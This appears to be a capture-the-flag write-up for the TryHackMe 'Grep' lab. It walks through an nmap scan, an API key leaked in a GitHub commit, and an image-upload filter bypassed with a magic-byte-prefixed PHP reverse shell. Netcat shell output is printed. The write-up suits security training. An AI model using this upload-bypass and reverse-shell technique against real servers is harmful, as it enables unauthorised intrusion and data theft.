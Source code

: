 # THM - Grep

#### Ip: 10.10.46.254
#### Name: Grep
#### Difficulty: Easy

----------------------------------------------------------------------

![grep.png](../assets/grep_assets/grep.png)

```text
A challenge that tests your reconnaissance and OSINT skills.

Welcome to the OSINT challenge, part of TryHackMe’s Red Teaming Path. In this task, you will be an ethical hacker aiming to exploit a newly developed web application.

SuperSecure Corp, a fast-paced startup, is currently creating a blogging platform inviting security professionals to assess its security. The challenge involves using OSINT techniques to gather information from publicly accessible sources and exploit potential vulnerabilities in the web application.

Start by deploying the machine; Click on the Start Machine button in the upper-right-hand corner of this task to deploy the virtual machine for this room.

Your goal is to identify and exploit vulnerabilities in the application using a combination of recon and OSINT skills. As you progress, you’ll look for weak points in the app, find sensitive data, and attempt to gain unauthorized access. You will leverage the skills and knowledge acquired through the Red Team Pathway to devise and execute your attack strategies.
```

Lets scan the target using Nmap. Here I will use the `-p-` falg to scan all TCP ports, as well as the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Grep]
└─$ sudo nmap -p-  --min-rate 10000 10.10.46.254 -sC -sV   
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-07 11:00 CDT
Nmap scan report for 10.10.46.254
Host is up (0.22s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 385bafb4588f5622751331671f85fc2c (RSA)
|   256 489529399f1327e14d415ac237359588 (ECDSA)
|_  256 2766c38bc7c95633f78e2e52541ebe65 (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp   open  ssl/http Apache httpd 2.4.41
| ssl-cert: Subject: commonName=grep.thm/organizationName=SearchME/stateOrProvinceName=Some-State/countryName=US
| Not valid before: 2023-06-14T13:03:09
|_Not valid after:  2024-06-13T13:03:09
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: 403 Forbidden
|_ssl-date: TLS randomness does not represent time
51337/tcp open  http     Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: 400 Bad Request
Service Info: Host: ip-10-10-46-254.eu-west-1.compute.internal; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.79 seconds
```

Lets add grep.thm to our `/etc/hosts` folder. 

We can now access the site on port 443:

searchme.png

Trying to register a new user we get an error message.

expired.png

Heading over to GitHub, if we search `SearchME language:PHP ` we find an interesting repo:
https://github.com/supersecuredeveloper/searchmecms/blob/main/api/upload.php

progress.png

# Question 1

```text
What is the API key that allows a user to register on the website?
```

If we take a look at the commit history in the API > register.php file, we find the initial commit contained the API key hardocded:

api_key.png

# Question 2

```text
What is the first flag?
```

Armed with this API key I can capture the registration in Burp, and simply update the api-key field.

burp.png

I can now logon as my created user and grab the first flag:

flag1.png

# Question 3

```text
What is the email of the "admin" user?
```

Back in the GitHub repo we also find code for `/upload.php` and the code shows the file upload only accepts images with certain magic bytes, and also provides us the upload path.

upload_code.png

Lets grab a copy of PentestMonkey's php-reverse-shell.php code and make a couple of updates. 

First we'll need to update our IP and the port we'll be listening on:

php.png

The we can head over to cyberchef and add the magic bytes listed in the GitHub code to the hex:

cyber.png

From here we can upload our file:

worked.png

Now we can set up a netcat listener, navigate to http://grep.thm/api/uploads, select our reverse shell file, and trigger the shell:

```text
┌──(ryan㉿kali)-[~/THM/Grep]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.2.6.181] from (UNKNOWN) [10.10.217.227] 43686
Linux ip-10-10-217-227 5.15.0-1038-aws #43~20.04.1-Ubuntu SMP Fri Jun 2 17:10:57 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 18:59:48 up 6 min,  0 users,  load average: 0.18, 0.85, 0.55
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ python3 -c 'import pty;pty.spawn("/bin/bash")'

www-data@ip-10-10-217-227:/$ 
```

Browsing around the target we find a file called users.sql with the administrator's email:

email.png

# Question 4

```text
What is the host name of the web application that allows a user to check an email for a possible password leak?
```
Browsing around the box more, the question seems to indicate we're looking for another domain in use. Running `cat /etc/hosts` we can see what else is in use by this IP:

leak.png

# Question 5

```text
What is the password of the "admin" user?
```

After adding the above to our own `/etc/hosts` file we can navigate to the site (after trying the different open ports revealed in our Nmap scans) and find the admin's password:

password.png

Thanks for following along!

-Ryan 

-------------------------------------------------------
